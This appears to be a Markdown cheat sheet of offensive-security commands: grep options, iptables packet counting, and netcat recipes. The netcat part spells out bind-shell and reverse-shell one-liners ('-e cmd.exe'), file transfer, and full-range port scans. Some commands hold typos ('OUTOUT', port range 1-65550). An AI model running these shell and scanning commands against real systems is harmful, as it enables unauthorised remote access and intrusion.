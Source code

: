 **Tools**

- Ship - one-stop-shop for basic network reconnaissance and addressing: <https://github.com/xtonousou/ship.git> <https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-using-ship-for-quick-handy-ip-address-information-0181593/> 

### Tools
- grep
  - Color word root: `grep --color root /etc/passwd`
  - OR: `grep -e how -e to -e forge *.txt`
  - <https://www.howtoforge.com/tutorial/linux-grep-command/>

| Option     | Details     |
| :--------- | :---------- |
| `-i`       | Ignore case |
| `-r` `-R`  | Recursive  `grep -R "example" /etc/apache2/` |
| `-w`       | Match words |
| `-e`       | Regex match `grep -w -e 'word1|word2' /path/to/file`|
| `-n`       | Line number |
| `-c`       | Count |
| `-v`       | Invert  |
| `-x`       | Exact match  |
| `-l`   | File names with match  |
| `-L`   | File names without match  |
  
- iptables
  - count packets sent and received
    ```
    iptables -Z && iptables -F
    iptables -I INPUT 1 -s IP -j ACCEPT
    iptables -I OUTOUT 1 -d IP -j ACCEPT
    ip tables -vn -L
    ```
- Netcat
  - Chat
    ```
    nc -nlvp 4444
    nc -nv <ip> 4444
    ```
  - File Transfer
    ```
    nc -nlvp 4444 > file.exe  
    nc -nv <ip> 4444 < file.exe
    ```
  - Bind Shell
    - VICTIM (server): `nc -lvp 4444 -e cmd.exe`
    - ATTACKER (client): `nc -nv <IP Address> 4444`
  - Reverse Shell
    - ATTACKER (server): `nc -lvp 4444`
    - VICTIM (client): `nc -nv <IP Address> 4444 -e cmd.exe`
  - NCAT for increased security
    - VICTIM (server): `ncat -lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl`
    - ATTACKER (client): `ncat -nv <IP Address> 4444 --ssl`
  - Port Scanning
    - TCP Connect Port Scan: `nc -nvv -w 1 -z <ip> 1-65550`
    - UDP Scan: `nc -unvv -w 1 -z <ip> 1-65550`
- tcpdump
  - Packet Capture